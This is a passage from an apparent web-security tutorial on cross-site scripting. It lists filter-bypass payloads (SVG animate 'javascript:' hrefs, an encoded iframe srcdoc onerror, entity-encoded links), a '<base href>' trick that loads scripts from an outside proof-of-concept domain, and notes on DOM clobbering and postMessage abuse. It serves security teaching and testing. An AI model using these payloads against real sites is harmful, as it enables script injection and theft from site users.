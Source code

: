 <pre class="language-html" data-overflow="wrap"><code class="lang-html">&#x3C;!-- Dynamically set href= attribute using SVG animation, with "javascript:" partially in attribute value -->
&#x3C;svg>&#x3C;a>&#x3C;animate attributeName=href dur=5s repeatCount=indefinite keytimes=0;0;1 values="https://example.com?&#x26;semi;javascript:alert(origin)&#x26;semi;0" />&#x3C;text x=20 y=20>XSS&#x3C;/text>&#x3C;/a>

&#x3C;!-- Using iframe srcdoc= attribute to include encoded HTML -->
<strong>&#x3C;iframe srcdoc="&#x26;lt;img src=1 o&#x26;#110;error=alert(1)&#x26;gt;">&#x3C;/iframe>
</strong>
&#x3C;!-- Link requiring user interaction with javascript: URL -->
&#x3C;a href="&#x26;#106avas&#x26;#99ript:alert()">Click me!&#x3C;/a>
</code></pre>

One last payload is a less well-known tag called `<base>` which takes an `href=` attribute that will decide where any **relative URLs will start** from. If you set this to your domain for example, and later in the document a `<script src="/some/file.js">` is loaded, it will instead be loaded from **your website** at the path of the script.&#x20;

<pre class="language-html"><code class="lang-html"><strong>&#x3C;base href=//xss.jorianwoltjer.com>
</strong>
&#x3C;!-- Any normal relative script after this payload will be taken from the base -->
&#x3C;script src="/some/file.js">
&#x3C;!-- ^^ Will fetch 'http://xss.jorianwoltjer.com/some/file.js' instead -->
</code></pre>

{% hint style="info" %}
To exploit and show a proof of concept of the above trick, I set up [this domain](https://xss.jorianwoltjer.com/) that returns the same script for **every path** with any payload you put into that **URL hash**. This means you can include this injection anywhere, and put a JavaScript payload after the `#` symbol of the target URL which will then be executed:

```go
http://example.com/path#alert(document.domain)
```
{% endhint %}

See [#filter-bypasses](cross-site-scripting-xss.md#filter-bypasses "mention") for a more broad approach to make your own bypass.

#### Alternative Impact

If inserting tags to achieve XSS is really not possible, due to a string filter or some other restriction, you can always try to get other impact using an HTML injection as they can be very powerful.&#x20;

One idea is to use **DOM Clobbering**, which is a technique that uses `id`'s and other attributes of tags that make them accessible from JavaScript with the `document.<name>` syntax. The possibility of this depends on what sinks are available, and should be evaluated case-by-case:

{% embed url="https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering" %}
A simple reference with examples and tricks about DOM Clobbering ([more detail](https://domclob.xyz/))
{% endembed %}

If `<iframe>` tags are allowed, you may be able to load an **iframe of your malicious site**. This can then access the `top` variable in its JavaScript code to do some light interaction with the target page like `top.location = "..."` to redirect it, or [`top.postMessage()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) to send messages to `"message"` event listeners on the target page, which may have sinks for XSS or other impact like stealing secrets. These could be vulnerable if the listeners don't check the origin or a message, and is even possible if `X-Frame-Options` are denied as this happens on the target site itself.&#x20;
